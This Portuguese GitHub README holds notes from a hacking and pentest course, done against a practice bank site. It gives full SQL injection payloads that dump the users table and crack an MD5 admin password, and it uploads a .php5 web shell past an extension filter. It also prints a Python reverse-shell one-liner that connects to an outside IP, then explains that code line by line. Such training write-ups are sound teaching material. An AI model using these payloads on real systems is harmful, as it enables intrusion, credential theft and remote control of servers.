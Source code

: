 # Introdução ao Hacking e Pentest

Estas são as anotações das partes práticas do curso [Introdução ao Hacking e Pentest](https://solyd.com.br/ead/course/introducao-ao-hacking-e-pentest/) oferecido pela Solyd. Todos os passos são executados no site desenvolvido exclusivamente para isso: http://www.bancocn.com.

## Exploração

Nesta etapa o mais importante que temos a descobrir é:
- Se usarmos <code>'</code> como id no URL, recebemos um erro de sintaxe do SQL, então podemos tentar explorar vulnerabilidades do SQL;
- Pelo arquivo /robots.txt, descobrimos a existência da página /admin.

## SQL Injection

Vamos descobrir quantas colunas tem usando o comando SQL ORDER BY Keyword, ele é usado para ordenar os resultados em ordem ascendente ou descendente de acordo com os valores de determinada coluna.
Então por exemplo se queremos ordenar o resultado o resultado pelos valores da coluna 1 e comentar o que viria depois do código usando --, então vamos passar <code>1 ORDER BY 1--</code>. Vamos inserir os comandos sempre após <code>www.bancocn.com/cat.php?id=</code>.
<pre> 
1 ORDER BY 1-- :ok
1 ORDER BY 2-- :ok
1 ORDER BY 3-- :ok
1 ORDER BY 4-- : Unknown column '4' in 'order clause'
</pre>

Então agora sabemos que temos 3 colunas. O comando UNION é usado para combinar o resultados de múltiplos SELECTS, então vamos adicionar uma linha ao resultado.  Vai ser adicionado no final do resultado, mas ele lê o primeiro resultado, então vamos usar o sinal negativo para inverter a ordem dos resultados, por exemplo: <code>-1 UNION SELECT 1,2,3</code>. Podemos usar então database() para obtermos o nome do banco de dados onde as informações são exibidas na tela: 

<code>-1 UNION SELECT 1,2,database()</code>.

Com isso sabemos o nome do nosso banco de dados: bancocn. Para sabermos todas tabelas do banco de dados podemos usar: 

<code>-1 UNION SELECT 1,2, GROUP_CONCAT(table_name) FROM information_schema.tables WHERE table_schema="bancocn"</code>

Basicamente, estamos inserindo uma linha onde as duas primeiras colunas são 1 e 2 respectivamente, e o terceiro que é o que será exibido na tela, então concatenamos o resultado, que é a busca na tabela tables no banco de dados information_schema que pertence ao banco de dados bancocn, de acordo com o valor na coluna table_schema.

Obtemos agora os nomes das tabelas do nosso banco de dados: categories,pictures,stats,users. Então com os nomes das tabelas escolhemos ver melhor a tabela users, usando um código parecido:

<code>-1 UNION SELECT 1,2, GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_schema="bancocn" AND table_name="users"</code>

As colunas são: id,login,password. Então agora olhamos a tabela das colunas e olhamos onde o banco de dados é bancocn e a tabela é users.

Então podemos agora simplesmente exibir, o login senha:
- <code>-1 UNION SELECT 1,2, login FROM bancocn.users</code>
- <code>-1 UNION SELECT 1,2, password FROM bancocn.users</code>

Obtemos então o usuário (admin) e a senha (7b71be0e85318117d2e514ce2a2e222c).

Testamos uma criptografia padrão (MD5), usando o [MD5 Decrypter](https://www.md5online.org/) desciptografamos a senha (senhafoda) e conseguimos acesso ao painel de admin descoberto anteriormente.

## Shell reversa

Olhando a estrutura dos endereços das imagens carregadas, podemos acessar o diretório dos arquivos /admin/uploads. Lá podemos então abrir um arquivo com extensão php que enviaremos ao servidor.

Aproveitando que possui um filtro de extensões que barra arquivos .php, mas permite .php5, vamos carregar um arquivo PHP5 (terminal.php5) que recebe comandos e os executa no terminal.  Por exemplo para rodar um <code>ls </code> poderíamos usar:
<code>?comando=ls</code>, então o endereço de forma completa ficaria <code>/admin/uploads/terminal.php5?comando=ls</code>.

O que queremos rodar no terminal, é uma shell reversa, uma versão em python pode ser retirada do [pentestmonkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet):

<code>python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("179.189.157.42",6666));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' </code>

Substituimos o IP pelo endereço da nossa máquina, que pode ser visto em [What is my IP](https://whatismyip.com.br/) por exemplo. Agora podemos utilizar o netcat ([versão para Windows](https://eternallybored.org/misc/netcat/) disponibilizado por Jernej Simoncic) para enviar comandos para nossa máquina.

Neste ponto, invadimos o servidor web.

# Bônus: construindo a Shell Reversa

Vamos olhar trecho a trecho o código em python que passamos em uma linha para rodar nossa shell reversa. Criamos um script python chamado (clienteTCP)[https://github.com/SapoGitHub/Repositorio-Geral/blob/master/Introdu%C3%A7%C3%A3o%20ao%20Hacking%20e%20Pentest/clienteTCP.py] melhor comentado para esta tarefa.

Primeiro, soquete é o ponto-final de um fluxo de comunicação entre 2 aplicativos através da rede. Portanto para 2 aplicativos temos 2 pontos finais, chamados normalmente de
- Servidor: considerado a máquina 'principal', ela envia os comandos ;
- Cliente: responsável por se conectar no servidor e receber e executa comandos.

Queremos então criarmos um cliente para rodar em nossa máquina. Para isso precisamos definir algumas coisas:
- A representação do endereço (Família de protocolo): Usamos o AF_INET (domínio da internet) é uma família de endereços onde usamos um par de valores: (servidor, porta), onde:
	- servidor: é um hostname de um domínio de internet (daring.cwi.nl) ou um endereço IP;
	- porta: um inteiro.
- Tipo: especifica a semântica da comunicação e usamos o SOCK_STREAM que fornece uma conexão sequencial, confiável e bidirecional. Ela indica que nosso soquete vai ser do tipo TCP.

Definido o protocolo que vamos utilizar para o envio de informações e como vamos representar o endereço, podemos então fornecer o IP e porta para se conectar ao nosso servidor.

```
soquete=socket.socket(socket.AF_INET,socket.SOCK_STREAM)  #Configura o socket
soquete.connect(("127.0.0.1",6666))                       #Conecta em nosso servidor
```

O próximo passo é lidarmos com os descritores de arquivos, isto é um indicador abstrato para acessar um arquivo. Cada processo Unix tem três descritores de arquivos padrões, representados por inteiros:
- 0: Entrada padrão;
- 1: Saída padrão;
- 2: Erro padrão.

Então o nosso próximo passo, é pegarmos o descritor de arquivo do soquete, fazemos isso com o comando:

<code>das=soquete.fileno()                                        #Retorna o descritor do soquete</code>

E fazermos os descritores de arquivo padrões indicarem para o mesmo lugar, ou seja, o soquete:
```
os.dup2(das,0)						#Duplica o descritor 'das' para 0                                    
os.dup2(das,1)						#Duplica o descritor 'das' para 1
os.dup2(das,2)						#Duplica o descritor 'das' para 2
```

Agora então, as entradas e saídas de nosso processo serão recebidas e enviadas através do nosso soquete, ou seja a comunicação é feita com nosso servidor. Por fim, nos falta executar de fato a shell(<code>/bin/sh</code>) apenas:

<code>subprocess.call(["/bin/sh"])			#Executamos a shell</code>

Ainda podemos usar o argumento <code>-i</code> para forar a shell a rodar de interativo. Nesse caso usaríamos <code>subprocess.call(["/bin/sh","-i"])</code>. 
